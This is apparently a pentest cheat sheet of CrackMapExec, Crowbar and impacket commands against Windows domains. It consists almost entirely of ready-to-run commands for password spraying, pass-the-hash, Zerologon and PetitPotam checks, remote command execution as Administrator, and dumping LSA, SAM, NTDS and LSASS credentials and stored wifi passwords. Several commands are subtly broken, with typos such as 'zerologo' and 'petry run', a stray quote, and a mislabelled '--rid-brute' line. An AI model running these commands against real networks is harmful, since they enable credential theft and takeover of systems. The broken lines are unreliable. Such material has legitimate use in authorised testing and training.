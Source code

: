 # Password and Credential Spraying

#### [CrackMapExec](https://wiki.porchetta.industries/) <a href="#crackmapexec" id="crackmapexec"></a>

**Vulnerability scan**

```
#zerologon
crackmapexec smb <ip> -u '' -p '' -M zerologo

#Petitpotam
crackmapexec smb <ip> -u '' -p '' -M petitpotam

#nopac - Credentials required for this test
crackmapexec smb <ip> -u 'user' -p 'pass' -M nopac
```

**SMB**

```
# Host enumeration
crackmapexec smb $IP/24
```

```
# Checking Null Session
poetry run crackmapexec smb $IP -u '' -p ''
poetry run crackmapexec smb $IP --pass-pol
poetry run crackmapexec smb $IP --users
poetry run crackmapexec smb $IP --groups
```

```
# Anonymous Logins - random username and blank password
poetry run crackmapexec smb $IP -u 'a' -p ''
# Active Sessions on target
poetry run crackmapexec smb 192.168.1.0/24 -u 'username' -p 'password' --sessions
# LoggedOn Users
poetry run crackmapexec smb 192.168.1.0/24 -u 'username' -p 'password' --loggedon-users
# List shares and permissions
poetry run crackmapexec smb $IP -u 'username' -p 'password' --shares
# List Domain Users
poetry run crackmapexec smb $IP -u 'username' -p 'password' --users
# Enumerate Users with RID brute
poetry run crackmapexec smb $IP -u 'username' -p 'password' --rid-brute
# Enumerate Domain groups and localgroups
poetry run crackmapexec smb $IP -u 'username' -p 'password' --groups
poetry run crackmapexec smb $IP -u 'username' -p 'password' --local-group
# Passsword Policy
poetry run crackmapexec smb $IP -u 'username' -p 'password' --rid-brute
# SMB signing not required
poetry run crackmapexec smb $IP -u 'username' -p 'password' --gen-relay-list relaylistOutputFilename.txt
# AV Software installed
poetry run crackmapexec smb $IP -u 'username' -p 'password' -M enum_av-M enum_av
```

```
# Spraying
poetry run crackmapexec smb $IP -u user.txt -p password.txt --continue-on-success
poetry run crackmapexec smb $IP -u user.txt -p password.txt --no-bruteforce

# Default authentication is domain auth where green indicates successful login and pwn3d! marks local admin
petry run crackmapexec winrm $IP/24 -u <username>  -p '<password>' --local-auth
poetry run crackmapexec smb $IP -u Administrator -H '<hash>' --continue-on-success
```

```
# command execution cmd
poetry run crackmapexec $IP -u Administrator -p 'P@ssw0rd' -x whoami
# command execution powershell
poetry run crackmapexec $IP -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```

> Getting Shell in Empire using CME: https://wiki.porchetta.industries/smb-protocol/command-execution/getting-shells-101

```
# Dumping Credentials
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --lsa
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --sam
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --local-auth --lsa
poetry run crackmapexec smb $IP/24 -u Administrator -H '<hash>' --ntds
poetry run crackmapexec smb $IP -u administrator -p pass -M lsassy    #remotely dump creds
poetry run crackmapexec smb $IP -u administrator -p pass -M nanodump  #remotely dump creds
poetry run crackmapexec smb $IP -u administrator -p pass -M wireless  #wifipassword
```

**WinRM**

```
# smb
petry run crackmapexec winrm $IP/24 -u <username>  -p '<password>'          
petry run crackmapexec winrm $IP/24 -u users.txt  -p password.txt' --no-bruteforce
```

**MSSQL**

> Reference: https://wiki.porchetta.industries/mssql-protocol/mssql-privesc

#### Crowbar <a href="#crowbar" id="crowbar"></a>

```
crowbar -b rdp -s $IP/32 -u <username> -c '<password>' -n1 -v 
```

#### impacket-rdp\_check <a href="#impacket-rdp_check" id="impacket-rdp_check"></a>

```
impacket-rdp_check <domain/user>:<password>@$IP
impacket-rdp_check <domain/user>@$IP -hashes LMHASH:NTHASH
```
